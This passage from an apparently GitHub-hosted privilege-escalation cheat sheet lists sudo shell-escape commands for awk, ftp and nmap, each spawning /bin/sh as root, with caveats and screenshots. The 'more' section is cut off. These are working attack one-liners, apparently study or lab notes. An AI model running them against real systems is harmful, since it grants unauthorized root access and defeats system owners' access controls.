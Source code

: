 ```sudo awk 'BEGIN {system("/bin/sh")}'```

**ftp**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```sudo ftp```
<br />
```!/bin/sh```

![image](https://user-images.githubusercontent.com/14150485/172016751-ac465d2c-d464-4e31-bbd3-b29bdf3d3012.png)

<br />

**nmap**
--------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

*(a) Input echo is disabled.*
<br />
`TF=$(mktemp)`
<br />
`echo 'os.execute("/bin/sh")' > $TF`
<br />
`sudo nmap --script=$TF`
<br />

*(b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
<br />
`sudo nmap --interactive`
<br />
`nmap> !sh`

<br />

Following the steps in example (a): 

![image](https://user-images.githubusercontent.com/14150485/172017005-1501a070-dbb1-46b8-a773-c7d29c8d90ee.png)

And example (b):

![image](https://user-images.githubusercontent.com/14150485/172017064-ba72bda4-e546-429a-9f47-2f9dd08e829a.png)

<br />

**more**
------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*
```